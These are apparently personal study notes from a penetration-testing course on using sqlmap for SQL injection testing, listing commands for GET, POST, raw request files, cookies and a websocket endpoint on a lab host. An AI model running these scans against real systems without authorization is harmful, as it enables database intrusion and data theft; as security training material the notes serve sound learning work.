 ```shell-session
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```
the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option

## Setting up 
Easiest way is just to copy as curl in network in firefox
![Network panel showing a GET request to www.example.com with a 404 status, and a context menu with options like 'Copy as cURL'.](https://academy.hackthebox.com/storage/modules/58/M5UVR6n.png)

By pasting the clipboard content (`Ctrl-V`) into the command line, and changing the original command `curl` to `sqlmap`, we are able to use SQLMap with the identical `curl` command:

Running SQLMap on an HTTP Request

```shell-session
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

When providing data for testing to SQLMap, there has to be either a parameter value that could be assessed for SQLi vulnerability or specialized options/switches for automatic parameter finding (e.g. `--crawl`, `--forms` or `-g`).

#### post request
```shell-session
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```
get request you can just copy the url 

we can also use -r -> file with complex HTTP request
--cookie -> session cookie
--method -> if you don't want GET or POST u can use PUT or other options


how the -r file should look like
```http
GET /?id=1 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Thu, 17 Oct 2019 07:18:26 GMT
If-None-Match: "3147526947"
Cache-Control: max-age=0
```
Can intercept the request using burp also it might be more accurate sometimes

`--dbms` to define db, like Mysql 


### Using websocket
if they use websocket instead of the normal http get /post request we can still do it with sqlmap
```
sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --union-cols=3
```
